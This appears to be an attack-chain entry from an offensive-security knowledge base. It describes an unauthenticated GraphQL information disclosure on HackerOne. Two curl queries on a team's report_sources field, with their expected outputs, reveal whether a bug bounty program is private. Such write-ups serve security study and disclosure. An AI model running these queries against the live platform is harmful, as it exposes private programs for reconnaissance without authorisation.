

---
tags:
  - information-disclosure
  - graphql
  - api
  - hackerone
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
commands:
  - '[[commands/curl-graphql-team-report-sources]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Detect-Private-HackerOne-Programs-via-GraphQL]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  This attack chain exploits an information disclosure vulnerability in
  HackerOne's GraphQL API, allowing unauthorized users to determine if a program
  is private by querying the Team object's report_sources field.
skill_level: beginner
impact_level: medium
id: a9456eb2-b57d-4330-b916-e7fc7a9ae677
created_at: '2025-12-14T17:30:47.343Z'
updated_at: '2025-12-14T17:30:47.343Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Unauthorized Disclosure of Private HackerOne Programs via GraphQL API

## Overview

This attack chain demonstrates an information disclosure vulnerability in HackerOne's GraphQL API at the /graphql endpoint. Unauthorized users can query the Team object using various team handles to access the 'report_sources' attribute. For non-private programs, report_sources returns an empty array, while private programs return ['HackerOne Platform'], revealing sensitive details about program privacy and external links. The chain involves querying example teams to observe the difference, enabling attackers to identify private programs without authentication.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- curl (for sending HTTP POST requests)

### Target Environment

- Web platform
- Access to HackerOne's public GraphQL endpoint (/graphql)
- Knowledge of team handles (discoverable via public HackerOne pages)

### Initial Access Requirements

- No credentials required (unauthenticated access)
- Internet connectivity
- No prior access needed

## Detailed Attack Procedures

### Step 1: Query Non-Private Team
procedure: [[procedures/Detect-Private-HackerOne-Programs-via-GraphQL]]

**Objective**: Send a GraphQL query to a known non-private team handle to baseline the response, confirming empty report_sources for public programs.

**Instructions**: Use [[commands/curl-graphql-team-report-sources]] with a non-private team handle (e.g., a publicly listed team like 'example-nonprivate'). This establishes the expected response for non-sensitive programs.

```bash
curl -X POST https://hackerone.com/graphql -H "Content-Type: application/json" -d '{"query":"query {team(handle:\"example-nonprivate\"){_id,report_sources}}"}'
```

**Expected Output**: `{"data":{"team":{"_id":"example-id","report_sources":[]}}}`

**Success Indicators**:
- HTTP 200 response
- report_sources is an empty array

### Step 2: Query Private Team
procedure: [[procedures/Detect-Private-HackerOne-Programs-via-GraphQL]]

**Objective**: Query a private team handle to detect the disclosure, where report_sources includes 'HackerOne Platform', indicating private program status and potential external links.

**Instructions**: Repeat the query using [[commands/curl-graphql-team-report-sources]] with a private team handle (e.g., 'example-private'). Compare against the baseline to confirm the leak.

```bash
curl -X POST https://hackerone.com/graphql -H "Content-Type: application/json" -d '{"query":"query {team(handle:\"example-private\"){_id,report_sources}}"}'
```

**Expected Output**: `{"data":{"team":{"_id":"example-private-id","report_sources":["HackerOne Platform"]}}}`

**Success Indicators**:
- HTTP 200 response
- report_sources contains ["HackerOne Platform"]
- Confirmation of private program exposure

## Attack Chain Summary

### Key Achievements

1. Successfully queried the GraphQL API without authentication to access Team object data.
2. Differentiated private vs. non-private programs via report_sources field.
3. Exposed potential sensitive program details, aiding further reconnaissance.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
